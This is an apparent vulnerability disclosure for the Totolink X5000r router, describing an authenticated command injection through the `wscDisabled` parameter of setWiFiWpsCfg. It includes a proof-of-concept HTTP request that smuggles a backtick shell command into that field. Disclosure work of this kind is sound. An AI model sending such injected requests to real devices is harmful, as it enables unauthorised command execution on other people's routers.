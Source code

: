 # totolink X5000r
## Firmware version
totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `setWiFiWpsCfg`.Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `setWiFiWpsCfg` (at 0x41182C), binary /cgi-bin/cstecgi.cgi. The parameter `wscDisabled` is passed to 'Uci_set_str' without any check.
![setWifiWpsCfg](image.png)
Uci_Set_Str passes the parameter `enable` and `port` as the fourth argument, which is in libcscommon.so. It can be observed that Uci_Set_Str calls snprintf to format our param_4 into the string uci -c %s set .... and passes the string to the CsteSystem function,which will eventually be called by execv.
![uci_set_str](image.png)
![uci_set_str2](image-1.png)

## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.1.1
Content-Length: 216
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.1
Referer: http://192.168.1.1/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"topicurl": "setWiFiWpsCfg", "wifiIdx": "aaawzqaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaawzqwaaaaaaaaaaaaaaaaaaaaawzqwaaaaaaaa", "0": "wzqwzqwzq", "wscDisabled": "`ls -l`"}
```